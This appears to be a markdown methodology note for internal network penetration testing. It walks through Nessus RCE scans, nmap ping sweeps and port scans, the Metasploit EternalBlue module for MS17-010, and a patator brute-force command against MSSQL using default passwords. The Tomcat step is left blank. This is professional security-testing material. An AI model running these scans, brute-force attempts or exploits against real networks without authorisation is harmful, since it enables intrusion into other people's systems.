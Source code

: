 # Internal pentesting - Methodology

Internal pentesting simulates an insider attack starting from a point within
the internal network.

The present note does not address Active Directory pentesting. While part of the
methodology detailed in this note can be applied for an Active Directory
pentesting, specific tools and techniques make the overall approach completely
different.

### Low hanging fruits

The first step in an internal pentesting is to look for the path of least
resistance, the low hanging fruits that can easily be detected and exploited
(unpatched systems, default or guessable passwords, etc.).

The following steps represent my personnal methodology when starting an
internal penetration test:

  1. Nessus scan on all ports testing for RCE

     ```
     Advanced Scan
     Settings -> Discovery -> Scan type -> Port scan (all ports)
     Plugins -> Only keep "Gain a shell remotely" enabled
     ```

  2. Ping sweep with nmap

     ```
     IP="IP" && SUB="MASK"
     nmap -v -sn -oG "ping_sweep_$IP-$SUB.gnmap" "$IP/$SUB"
     grep Up ping_sweep_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "ping_sweep_$IP-$SUB.txt"
     ```

  3. Quick port scan with nmap

     ```
     nmap -v -sS -A -oA "quick_scan_tcp_$IP-$SUB" -iL "ping_sweep_$IP-$SUB.txt"
     ```

  4. SMB RCE vulnerabilities, notably EternalBlue & SambaCry, detection and
     exploitation

     ```
     grep -w '445' quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "SMB_$IP-$SUB.txt"
     nmap -v -p 139,445 --script=vuln -oG

     # MS17-010
     # Windows 7 and Server 2008 R2 (x64) All Service Packs
     msf> use exploit/windows/smb/ms17_010_eternalblue
     ```

  5. MSSQL default or guessable credentials

     ```
     grep -w '1433' quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "MSSQL_$IP-$SUB.txt"

     # Usernames: sa, Administrator, Administrateur
     # Passwords: blank, sa or Password123
     patator mssql_login host=FILE0 user=FILE1 password=FILE2 0="MSSQL_$IP-$SUB.txt" 1=<WORDLIST_USER> 2=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'
     ```  

  6. Exposed rlogin and rexec services without password

     ```
     grep -w "512\|513" quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "RLOGIN_$IP-$SUB.txt"
     ```

  7. Tomcat guessable credentials

     ```
     ```

  8. Review Nessus RCE scan results
